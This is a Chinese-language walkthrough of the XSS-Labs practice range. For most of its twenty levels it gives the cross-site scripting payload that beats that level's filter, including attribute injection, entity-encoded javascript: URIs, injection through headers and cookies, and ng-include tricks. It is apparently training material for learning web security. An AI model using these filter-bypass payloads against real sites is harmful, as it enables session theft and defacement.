# XssLabs

## 第一关

无任何过滤

```
<script>alert(1)</script>
```

## 第二关

html实体化，过滤了大于小于符号,闭合绕过即可

```
"><script>alert(1)</script><"
```

## 第三关

html实体化，过滤了大于小于符号,onforce绕过

```
' onfocus=javascript:alert() '
```

## 第四关

替换了大于小于符号为空,onforce绕过

```
" onfocus=javascript:alert() "
```

## 第五关

全部变成小写，并且把on替换为o_n

```
"><a href=javascript:alert()>123<"
```

## 第六关

大小写绕过，双写绕过都可以

" Onfocus=javascript:alert() "



## 第七关



```
" onfocus=javascript:alert() "
```

## 第八关

过滤了一堆，包括双引号，可以编码绕过





```
&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#41;
```

## 第九关

比上一题多加了http://头验证，在pyload中加入即可，记得加上注释

```
&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#41;//http://
```



## 第十关

有几个输入框被隐藏



通关代码发现还可以传入t_sort参数，并且只做了大于号小于号的过滤

尝试pyload：?t_sort=" onfocus=javascript:alert() type="text



## 第十一关

通关代码发现会读取referer，直接利用上面第十关的pyload即可 " onfocus=javascript:alert() type="text





## 第十二关

和上一关一样，只不过换成了ua头 " onfocus=javascript:alert() type="text



## 第十三关

cookie：" onfocus=javascript:alert() type="text





## 第十四关

网站挂了做不了

## 第十五关



**ng-include** 指令用于包含外部的 HTML 文件。

包含的内容将作为指定元素的子节点。

`ng-include` 属性的值可以是一个表达式，返回一个文件名。

默认情况下，包含的文件需要包含在同一个域名下。

所以包含第一关即可通关

```
?src='level1.php?name='
```

## 第十六关

过滤了空格，可以用%OA(换行)绕过 



## 第十七关

从这一关开始后面所有关卡，都调用外部xsf01.swf文件了，慢慢开始和逆向有关了，大伙学到这本靶场的xss知识点就差不多get完了，后面有能力的可以看看

`<embed>`标签，是用来嵌入图片的。可以用onclick或onmouseover绕过。因为这两个变量是互相拼接起来的，所以在输入arg02时在b之后加一个空格，当浏览器解析到b的时候就停止判断，然后将onclick或onmouseover看作另外一个属性。

edge可以跑，firefox不行

```
?arg01=a&arg02=a%20onmouseover=alert()
```

## 第十八关

同理

## 第十九关

同理

## 第二十关

亲测无效

```
?arg01=id&arg02=\%22))}catch(e){}if(!self.a)self.a=!alert(1)

?arg01=id&arg02=xss\%22))}catch(e){alert(1)}//%26width=123%26height=123
```